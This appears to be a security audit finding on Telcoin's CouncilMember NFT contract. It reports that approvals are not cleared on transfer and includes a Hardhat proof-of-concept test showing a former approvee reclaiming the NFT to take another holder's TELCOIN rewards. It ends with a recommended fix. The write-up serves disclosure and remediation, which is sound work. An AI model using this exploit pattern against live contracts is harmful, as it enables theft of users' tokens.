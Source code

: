Furry Taupe Orangutan

high

# Approvals are not cleared upon CouncilMember NFT transfers, allowing malicious holder to steal undue TELCOIN tokens

## Summary

The `CouncilMember` token utilizes custom approval logic that allows the owner of `GOVERNANCE_COUNCIL_ROLE` to approve users to spend specific tokens. These approvals are not cleared when the tokens are spent, which allows malicious user to reclaim previously spent tokens and steal the `TELCOIN` balance of new token owners.

## Vulnerability Detail

The `CouncilMember.sol` contract implements custom approval logic in place of the methods inherited from OpenZeppelin's contracts. This implementation consist of a storage mapping `_tokenApproval` and a corresponding `approve()` method:

```javascript
function approve(
        address to,
        uint256 tokenId
    )
        public
        override(ERC721Upgradeable, IERC721)
        onlyRole(GOVERNANCE_COUNCIL_ROLE)
    {
        _tokenApproval[tokenId] = to;
        emit Approval(ERC721Upgradeable.ownerOf(tokenId), to, tokenId);
    }
```

The contract overrides OpenZeppelin's `_isAuthorized()` method with custom implementation that checks if the `msg.sender` has the `GOVERNANCE_COUNCIL_ROLE` or is authorized for spending the specified token ID. The aforementioned `_tokenApproval` mapping is used for the latter.

```javascript
function _isAuthorized(
        address,
        address spender,
        uint256 tokenId
    ) internal view override returns (bool) {
        return (hasRole(GOVERNANCE_COUNCIL_ROLE, spender) ||
            _tokenApproval[tokenId] == spender);
    }
```

The issue is the approvals in `_tokenApproval` mapping are not cleared upon token transfers. This is in contradiction with ERC721 specification and allows for the following scenario:

1.  Admin (`GOVERNANCE_COUNCIL_ROLE`) approves Alice for spending her NFT.
2.  Alice sends the NFT to Bob.
3.  Some amount of `TELCOIN` tokens has been retrieved from Sablier stream and distributed between token holders. Bob has the right to claim portion of it as a rightful owner of a NFT.
4.  Alice notices this and transfers the NFT back to herself, utilizing the approval which has not been cleared.
5.  Now Alice can claim the `TELCOINs` rightfully belonging to Bob

The POC for the issue is provided below. Please paste it into `CouncilMember.test.ts` test suite.

```javascript
describe("POC", () => {
            it.only("Approved NFT spender can re-claim NFT", async () => {
                await telcoin.transfer(await stream.getAddress(), 100000);
                /* 1. Mint NFT to member */
                await expect(councilMember.mint(member.address)).to.not.reverted;
                /* 2. Admin approves member to spend their NFT */
                await councilMember.approve(member.address, 0);                
                expect(await councilMember.ownerOf(0)).to.equal(member.address);
                /* 3. Member sends the NFT to support */
                await councilMember.connect(member).transferFrom(member.address, support.address, 0);                
                expect(await councilMember.ownerOf(0)).to.equal(support.address);
                /* 4. The approval was not cleared - member can reclaim NFT and steal the balance */
                await councilMember.connect(member).transferFrom(support.address, member.address, 0);                
                expect(await councilMember.ownerOf(0)).to.equal(member.address);
                await expect(councilMember.connect(member).claim(0, 100)).to.not.reverted;
            });            
 })

```

## Impact

High, as the tokens are directly at risk.

## Code Snippet

https://github.com/sherlock-audit/2024-01-telcoin/blob/0954297f4fefac82d45a79c73f3a4b8eb25f10e9/telcoin-audit/contracts/sablier/core/CouncilMember.sol#L199

## Tool used

Manual Review

## Recommendation

Clear the approvals on transfer. Add the following method to `CouncilMember.sol` contract:

```diff
+ function transferFrom(address from, address to, uint256 tokenId) public override(ERC721Upgradeable, IERC721) {
+       super.transferFrom(from, to, tokenId);
+	delete _tokenApproval[tokenId];
+ }
```